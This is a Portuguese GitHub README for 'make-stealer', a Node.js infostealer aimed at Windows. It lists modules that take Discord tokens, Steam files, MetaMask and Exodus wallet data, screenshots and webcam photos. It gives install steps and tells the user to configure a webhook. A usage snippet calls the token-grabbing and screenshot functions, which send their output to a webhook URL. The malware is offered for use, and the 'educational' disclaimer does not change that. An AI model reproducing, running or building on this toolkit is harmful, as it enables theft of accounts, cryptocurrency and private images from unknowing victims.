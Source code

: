 # Stealers Modules

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Node.js](https://img.shields.io/badge/Node.js-16+-green.svg)](https://nodejs.org/)
[![Platform](https://img.shields.io/badge/Platform-Windows-blue.svg)](https://www.microsoft.com/windows)

> **⚠️ DISCLAIMER IMPORTANTE**  
> Este repositório é **APENAS** para fins educacionais e de pesquisa em segurança.  
> O uso deste código para atividades maliciosas é **PROIBIDO** e de responsabilidade exclusiva do usuário.

---

## 📋 Sobre

Diversos módulos para implementação em Stealers. Desenvolvido para fins educacionais em segurança da informação e pentesting.

---

## 🚀 Features

- **Discord**: Coleta tokens e informações de autenticação
- **Steam**: Backup dos arquivos principais da Steam
- **MetaMask & Exodus**: Cópia de dados de carteiras cripto
- **Screenshot**: Captura de tela com envio para webhook
- **Webcam**: Captura de foto da webcam

---

## 📁 Estrutura

```
make-stealer/
├── index.js              # Arquivo principal
├── package.json          # Dependências
├── readme.MD            # Documentação
└── modulos/             # Módulos do sistema
    ├── discord.js       # Coleta tokens Discord
    ├── steam.js         # Backup Steam
    ├── metamask.js      # Backup MetaMask
    ├── exodus.js        # Backup Exodus
    ├── screenshot.js    # Captura de tela
    └── webcam.js        # Captura webcam
```

---

## ⚙️ Requisitos

- **Sistema**: Windows 10/11
- **Node.js**: Versão 16 ou superior
- **NPM**: Gerenciador de pacotes

---

## 🛠️ Instalação

1. **Clone o repositório**:
   ```bash
   git clone https://github.com/npmstealer/make-stealer.git
   cd make-stealer
   ```

2. **Instale as dependências**:
   ```bash
   npm install
   ```

3. **Configure a webhook**:
   - edite o arquivo `index.js`
   - Substitua o 'webhook here' pela sua webhook

---

## 📦 Dependências

- `axios`: Requisições HTTP
- `screenshot-desktop`: Captura de tela
- `form-data`: Upload de arquivos

---

## 🚀 Como Usar

### Uso Básico
```bash
npm start
# ou
node index.js
```

### Uso dos módulos
```javascript
const { discordtokens } = require('./modulos/discord')
const { screenshot } = require('./modulos/screenshot')

discordtokens()

screenshot('print.png', 'https://seu-webhook.com')
```

---

## ⚖️ Responsabilidade Legal

- Este software é fornecido "como está"
- O uso é de responsabilidade exclusiva do usuário
- Respeite sempre as leis locais de privacidade e segurança
- Use apenas em ambientes autorizados e para fins educacionais

---

## 👤 Créditos

- **Desenvolvedor**: npmstealer
- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Versão**: 1.0.0

---

## 📞 Suporte

- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Issues**: Use o GitHub Issues para bugs

---

> **⚠️ Lembre-se**: Use este software de forma responsável e ética. A segurança da informação deve sempre respeitar a privacidade e os direitos dos usuários.
